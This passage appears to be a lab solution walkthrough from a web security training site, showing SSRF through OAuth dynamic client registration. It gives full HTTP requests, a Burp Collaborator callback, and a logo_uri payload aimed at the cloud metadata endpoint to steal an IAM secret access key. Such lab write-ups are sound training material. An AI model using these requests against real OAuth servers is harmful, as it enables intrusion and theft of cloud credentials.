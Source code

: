 ```
        "https://example.com"
    ]
}
```
3. Send the request. Observe that you have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new ``client_id``.
4. Using Burp, audit the OAuth flow and notice that the "Authorize" page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from ``/client/CLIENT-ID/logo``. We know from the OpenID specification that client applications can provide the URL for their logo using the ``logo_uri`` property during dynamic registration. Send the ``GET /client/CLIENT-ID/logo`` request to Burp Repeater.
5. From the "Burp" menu, open the Burp Collaborator client and click "Copy to clipboard" to copy your Collaborator URL. Leave the Collaborator dialog open for now.
6. In Repeater, go back to the ``POST /reg`` request that you created earlier. Add the ``logo_uri`` property and paste your Collaborator URL as its value. The final request should look something like this:
```
POST /reg HTTP/1.1
Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://YOUR-COLLABORATOR-ID.burpcollaborator.net"
}
```
7. Send the request to register a new client application and copy the ``client_id`` from the response.
8. In Repeater, go to the ``GET /client/CLIENT-ID/logo`` request. Replace the ``CLIENT``-ID in the path with the new one you just copied and send the request.
9. Go to the Burp Collaborator client dialog and check for any new interactions. Notice that there is an HTTP interaction attempting to fetch your non-existent logo. This confirms that you can successfully use the ``logo_uri`` property to elicit requests from the OAuth server.
10. Go back to the ``POST /reg`` request in Repeater and replace the current ``logo_uri`` value with the target URL:
```
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```
11. Send this request and copy the new ``client_id`` from the response.
12. Go back to the ``GET /client/CLIENT-ID/logo`` request and replace the ``client_id`` with the new one you just copied. Send this request. Observe that the response contains the sensitive metadata for the OAuth provider's cloud environment, including the secret access key.
13. Use the "Submit solution" button to submit the access key and solve the lab.

